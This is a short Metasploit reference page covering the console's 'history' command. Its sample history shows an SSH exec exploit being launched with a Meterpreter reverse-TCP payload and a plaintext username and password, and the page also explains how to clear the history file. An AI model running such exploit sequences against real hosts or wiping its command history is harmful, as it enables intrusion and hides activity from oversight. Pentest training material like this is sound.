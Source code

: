 # 05 - History

Search Tag(s): #metasploit-framework #command-and-control

## 5.1 - Help Menu

```
msf > history -h
Usage: history [options]

Shows the command history.

If -n is not set, only the last 100 commands will be shown.
If -c is specified, the command history and history file will be cleared.
Start commands with a space to avoid saving them to history.

OPTIONS:

    -a, --all-commands  Show all commands in history.
    -c, --clear         Clear command history and history file.
    -h, --help          Help banner.
    -n <num>            Show the last n commands.
```

## 5.2 - Show Metasploit History Commands

```
msf > history
102  use exploit/multi/ssh/sshexec
103  options
104  show targets
105  set target 1
106  set payload linux/x64/meterpreter/reverse_tcp
107  options
108  set lport 53
109  run username=fox password=pass1234 rhosts=10.0.2.15
..[snip]..
```

## 5.3 - Clear Metasploit History Commands

```
msf > history -c
```